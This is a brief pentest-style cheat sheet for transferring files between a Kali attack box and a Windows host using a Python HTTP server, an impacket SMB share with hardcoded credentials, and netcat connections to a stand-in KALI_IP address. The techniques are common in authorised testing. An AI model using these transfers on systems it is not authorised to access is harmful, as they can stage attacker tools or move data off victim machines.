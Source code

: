 # python server
```
python3 -m http.server
```

## SMB
server (linux)
```
impacket-smbserver test . -smb2support  -username kourosh -password kourosh
```

client (windows)
```
net use m: \\KALI_IP\test /user:kourosh kourosh
```

# Netcat
listener (linux)
```
nc -nvlp 9999 < file.txt
```

client (windows)
```
C:\Tools\nc.exe -nv KALI_IP 9999 > file.txt
```